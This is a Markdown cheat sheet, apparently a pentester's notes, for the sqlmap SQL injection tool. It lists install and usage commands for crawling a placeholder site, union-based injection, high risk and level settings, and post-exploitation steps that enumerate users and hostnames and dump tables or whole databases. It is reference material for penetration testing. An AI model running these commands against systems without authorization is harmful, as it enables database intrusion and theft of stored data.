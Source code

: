 ## Scope 
Automatic SQL injection and database takeover tool.

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

## Source
https://github.com/sqlmapproject/sqlmap
Environment:  Python

## Installation
*** Pre-installed in Kali Linux

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Example Usages

To get a list of basic options and switches:
```
python sqlmap.py -h
```

To get a list of all options and switches:
```
python sqlmap.py -hh
```

### <mark style="background: #D2B3FFA6;">Vulnerability Finding</mark>

### <mark style="background: #FFF3A3A6;">ALL IN ONE</mark>
```
sqlmap -u url.com --threads 5 --level 5 --risk 3 --v 1 --batch
```
 
***Auto Select default features
```
sqlmap -u url.com/news.php?id=1 --batch
```

***Crawling the URL 
```
sqlmap -u url.com --crawl depth --batch
```

***Union attack

```
sqlmap -u url.com --crawl 5 --technique="U" --batch
```

***Thread ---using multiple connection for faster result, default 1, [range= 1 to 10]
```
sqlmap -u url.com --crawl 5 --threads [1 to 10] --batch
```
 
***Risk -- harm level of payloads used, default 1, [range=1 to 3]

```
sqlmap -u url.com --crawl 5 --risk 3
```

***Level -- test in the cookies; default 1, [range=1 to 5]

```
sqlmap -u url.com --crawl 5 --level 5
```

***Verbosity , default 0,[range=0 to 6]
```
sqlmap -u url.com --crawl 5 --batch --v 6
```

### <mark style="background: #D2B3FFA6;">Post Exploitation</mark>

***User Enumeration; after finding a vulnerable parameter

```
sqlmap -u url.com/news.php?id=1 --current-user --batch
```

```
sqlmap -u url.com/news.php?id=1 --hostname --batch
```

***Getting current database name
```
sqlmap -u url.com/news.php?id=1 --current-db --batch
```


***Getting tables in database
```
sqlmap -u url.com/news.php?id=1 -D database_name --tables
```

***Getting All columns in a table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --dump
```

***Getting a specific Column Type in a specific table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --columns
```

***Getting all tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --dump-all
```

***Getting all database details
```
sqlmap -u url.com/news.php?id=1 --dbs
```

### <mark style="background: #D2B3FFA6;">Saving Output</mark>

```
sqlmap -u url.com --crawl 5 --output-dir="/location/to/save.txt"
```

